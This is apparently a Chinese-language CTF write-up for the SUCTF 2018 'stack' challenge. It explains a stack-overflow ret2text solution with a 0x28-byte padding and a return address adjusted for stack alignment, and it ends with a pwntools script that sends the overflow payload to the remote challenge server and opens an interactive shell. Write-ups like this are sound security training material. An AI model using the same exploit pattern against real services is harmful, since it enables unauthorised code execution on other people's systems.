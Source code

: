 ## 基本信息

- 题目名称： [SUCTF 2018 招新赛]stack
- 题目链接： https://www.nssctf.cn/problem/2333
- 考点清单： 栈溢出，栈对齐
- 工具清单： 无
- payloads： 详见本文末尾

## 一、看到什么

### 第一轮

-   常规反汇编

![gdb-disas.png](./images/SUCTF_2018_招新赛_gdb-disas.png)

## 二、想到什么解题思路

### 第一轮

-   **栈溢出+ret2text**

## 三、尝试过程和结果记录

### 第一轮

-   确定padding：**0x20+8 = 0x28**
-   确定addr（本题栈对齐，需要跳转至push后）：**0x40067a**
-   构造payload：

![payload-stack.png](./images/SUCTF_2018_招新赛_payload-stack.png)

-   flag

![flag-stack.png](./images/SUCTF_2018_招新赛_flag-stack.png)

## 四、Payload

```python
from pwn import *
lc = "./stack"
rmt = "node4.anna.nssctf.cn"
po = 28692

ELF(lc)
p = remote(rmt, po)

addr = 0x40067A
payload = b'A' * 0x28 + p64(addr)

p.sendline(payload)
p.interactive()
```

